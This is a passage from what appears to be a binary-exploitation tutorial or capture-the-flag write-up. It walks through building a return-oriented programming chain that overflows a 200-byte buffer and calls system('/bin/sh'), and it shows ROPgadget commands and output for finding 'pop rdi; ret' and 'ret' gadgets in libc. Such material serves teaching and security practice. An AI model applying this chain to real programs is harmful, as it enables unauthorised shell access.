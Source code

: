 ### Building the ROP Chain

**Goal:** Call `system("/bin/sh")`

In assembly, this is:
```asm
mov rdi, address_of_binsh_string
call system
```

**But we can't write assembly!** Instead, we chain gadgets:

```
Stack Layout (our ROP chain):
┌─────────────────────────┐
│ 200 bytes of 'A'        │ ← Padding to reach return address
├─────────────────────────┤
│ ret gadget              │ ← For stack alignment (optional)
├─────────────────────────┤
│ pop_rdi gadget address  │ ← 1. Jump here
├─────────────────────────┤
│ "/bin/sh" address       │ ← 2. This gets popped into RDI
├─────────────────────────┤
│ system() address        │ ← 3. Jump here with RDI="/bin/sh"
└─────────────────────────┘
```

**Execution flow:**
```
1. main() returns → Jumps to our pop_rdi gadget
2. pop_rdi executes → RDI now contains "/bin/sh" address
3. ret executes → Jumps to system()
4. system("/bin/sh") executes → SHELL! 🎉
```

---

### Finding Gadgets

**Find `pop rdi; ret` in libc:**
```bash
ROPgadget --binary libc.so.6 | grep "pop rdi ; ret"
```
Output:
```
0x000000000002a3e5: pop rdi ; ret
```

**Find `ret` gadget (for alignment):**
```bash
ROPgadget --binary libc.so.6 | grep ": ret$" | head -1
```
Output:
```
0x000000000002a3e6: ret
```

---